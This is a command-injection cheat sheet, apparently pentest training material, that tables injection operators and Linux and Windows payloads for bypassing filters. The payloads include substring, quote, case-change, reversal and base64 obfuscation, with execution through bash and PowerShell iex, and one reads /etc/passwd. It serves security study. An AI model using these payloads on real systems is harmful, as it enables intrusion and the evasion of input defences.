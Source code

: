 # Command Injections Cheat Sheet

## Injection Operators
| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|-------------------|---------------------|-----------------------|------------------|
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

## Linux
### Filtered Character Bypass
| Code | Description |
|------|-------------|
| `printenv` | Can be used to view all environment variables |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** | |
| `${PATH:0:1}` | Will be replaced with / |
| `${LS_COLORS:10:1}` | Will be replaced with ; |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one ([ -> \) |

### Blacklisted Command Bypass
| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `$@ or \` | Linux only |
| **Case Manipulation** | |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** | |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** | |
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Windows
### Filtered Character Bypass
| Code | Description |
|------|-------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** | |
| `%HOMEPATH:~0,-17%` | Will be replaced with \ - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with \ - (PowerShell) |

### Blacklisted Command Bypass
| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |